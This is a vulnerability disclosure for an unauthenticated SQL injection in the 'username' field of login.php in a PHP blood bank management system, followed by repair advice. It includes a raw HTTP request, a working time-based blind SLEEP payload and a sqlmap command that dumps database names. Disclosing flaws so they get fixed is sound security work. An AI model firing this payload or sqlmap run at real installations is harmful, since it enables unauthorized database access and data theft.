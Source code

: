 # code-projects Blood Bank Management System In PHP With Source Code v1.0 /hms/admin/login.php SQL injection
# usernameOF AFFECTED PRODUCT(S)
+ Blood Bank Management System In PHP With Source Code
## Vendor Homepage
+ https://code-projects.org/blood-bank-management-system-in-php-with-source-code/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ kinsomnia
## Vulnerable File
+ login.php
## VERSION(S)
+ V1.0
## Software Link
+ https://download.code-projects.org/details/5adfb6bc-7ea9-4781-b91b-d4fca515fab4
# PROBLEM TYPE
## Vulnerability Type
+ SQL injection
## Root Cause
+ A SQL injection vulnerability was found in the 'login.php' file of the 'Blood Bank Management System In PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter "username" and use it directly in SQL queries without appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.
+ ![1](1.png)

## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.
# DESCRIPTION
+ Due to insufficient user input verification for the "username" parameter, a serious SQL injection vulnerability has been discovered in the "Blood Bank Management System In PHP With Source Code", allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to the database, modify or delete data, and access sensitive information without logging in. Immediate remedial measures are needed to ensure system security and protect data integrity.
# No login verification required
# Vulnerability details and POC
```
POST /login.php HTTP/1.1
Host: 192.168.1.200:1214
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: http://192.168.1.200:1214
Connection: close
Referer: http://192.168.1.200:1214/
Cookie: PHPSESSID=v80phjj1umn61msuqisnar8277
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=admin&password=123456

```

## Vulnerability type: 
+ time-based blind

## Vulnerability location:
+ 'username' parameter 
## Payload: 
```
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 3565 FROM (SELECT(SLEEP(5)))PZxQ) AND 'pRBg'='pRBg&password=123456

```
+ ![2](2.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```bash
sqlmap -r 123 --batch --dbs

```
+ ![3](3.png)

# Suggested repair
1. **Use prepared statements and parameter binding:**
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
Strictly validate and filter user input data to ensure it conforms to the expected format. 

3. **Minimize database user permissions:**
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
